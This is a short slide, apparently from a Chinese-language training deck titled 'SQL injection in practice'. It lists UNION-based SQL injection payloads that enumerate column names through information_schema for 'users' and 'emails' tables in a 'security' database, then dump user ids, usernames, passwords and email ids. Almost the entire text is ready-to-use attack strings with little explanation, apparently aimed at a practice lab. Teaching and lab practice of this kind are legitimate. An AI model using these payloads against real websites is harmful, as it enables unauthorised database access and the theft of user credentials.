

# SQL注入实战
查询字段名
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails'%23
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'%23
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'%23

查询字段内容
id=-1' union select 1,2,group_concat(id) from users%23
id=-1' union select 1,2,group_concat(id) from security.users%23
id=-1' union select 1,2,username from users limit 10,1%23
id=-1' union select 1,group_concat(username),group_concat(password) from users%23
id=-1' union select 1,group_concat(id),group_concat(email_id) from emails%23
10